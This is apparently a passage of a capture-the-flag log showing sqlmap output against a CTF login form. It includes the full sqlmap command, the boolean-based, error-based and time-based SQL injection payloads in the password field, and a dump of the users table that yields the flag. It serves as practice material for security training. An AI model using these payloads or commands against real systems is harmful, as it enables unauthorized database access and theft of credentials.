    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: password=' OR SLEEP(5)-- NGfN&login=login=&username=
---
[22:16:26] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 (xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0
[22:16:26] [INFO] fetching tables for database: 'ctf'
[22:16:26] [INFO] the SQL query used returns 1 entries
[22:16:26] [INFO] resumed: users
Database: ctf
[1 table]
+-------+
| users |
+-------+

[22:16:26] [INFO] fetched data logged to text files under '/root/.sqlmap/output/ctf.crikeycon.com'

[*] shutting down at 22:16:26





root@blackhat:~# sqlmap -u 'http://ctf.crikeycon.com:8003/' --data='username=%27&password=&login=Submit+Query' --risk=1 --cookie='connect.sid=s%3A2K6sIvSsPyc0M8W96l0DrFXiJkW1mGQd.vp9sSrmQ6NlXc2ymNkcqywsOjO9JKHEF1evVc0mwofI;session=.eJwVz1FrgzAUBeC_Mu6zD5q6F6GwslqxcCO6diF5s42ruSYWWkZNSv_7stdzPg6cJ_TamRmKn97ehwSMhiLL8gTm63weoHjC2wkKkG5vOZMPrFqmXOcagV66ncHQTcq1XtExV9QGvi09ujpFUaYYphxFNKRJUmcb0TmkyyJZtKL1Mlw8sh2hwIWHTaoOE5OhzWTYeNxiyql-j54p-p7iDnE6MiXK_D9rqnppqpJJV6-k4LGzIz-MRtF5Da8Efu_Dbe5dPAAZX3183q4P_TWawWp4_QEENVCR.C7P7fw.9gp4AAialH1yX46-_g4QXofF2G;' -D ctf -T users --dump
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.1.2#stable}
|_ -| . [)]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 22:16:43

[22:16:43] [WARNING] it appears that you have provided tainted parameter values ('username='') with most probably leftover chars/statements from manual SQL injection test(s). Please, always use only valid parameter values so sqlmap could be able to run properly
are you really sure that you want to continue (sqlmap could have problems)? [y/N] y
[22:16:44] [WARNING] provided value for parameter 'password' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[22:16:44] [INFO] resuming back-end DBMS 'mysql' 
[22:16:50] [INFO] testing connection to the target URL
[22:16:50] [WARNING] there is a DBMS error found in the HTTP response body which could interfere with the results of the tests
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: password (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: password=-2518' OR 9960=9960#&login=login=&username=

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: password=' OR (SELECT 1455 FROM(SELECT COUNT(*),CONCAT(0x7170767071,(SELECT (ELT(1455=1455,1))),0x717a7a6b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- DWAo&login=login=&username=

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: password=' OR SLEEP(5)-- NGfN&login=login=&username=
---
[22:16:50] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 (xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0
[22:16:50] [INFO] fetching columns for table 'users' in database 'ctf'
[22:16:50] [INFO] the SQL query used returns 2 entries
[22:16:50] [INFO] resumed: username
[22:16:50] [INFO] resumed: varchar(50)
[22:16:50] [INFO] resumed: password
[22:16:50] [INFO] resumed: varchar(50)
[22:16:50] [INFO] fetching entries for table 'users' in database 'ctf'
[22:16:50] [INFO] the SQL query used returns 1 entries
[22:16:50] [INFO] resumed: flag{SqL_1nj3ct10nz_ar3_t00_h4RD_f0r_p1Mp5}
[22:16:50] [INFO] resumed: admin
[22:16:50] [INFO] analyzing table dump for possible password hashes
Database: ctf
Table: users
[1 entry]
+----------+---------------------------------------------+
| username | password                                    |
+----------+---------------------------------------------+
| admin    | flag{SqL_1nj3ct10nz_ar3_t00_h4RD_f0r_p1Mp5} |
+----------+---------------------------------------------+

[22:16:50] [INFO] table 'ctf.users' dumped to CSV file '/root/.sqlmap/output/ctf.crikeycon.com/dump/ctf/users.csv'
[22:16:50] [INFO] fetched data logged to text files under '/root/.sqlmap/output/ctf.crikeycon.com'

[*] shutting down at 22:16:50




flag{SqL_1nj3ct10nz_ar3_t00_h4RD_f0r_p1Mp5} 
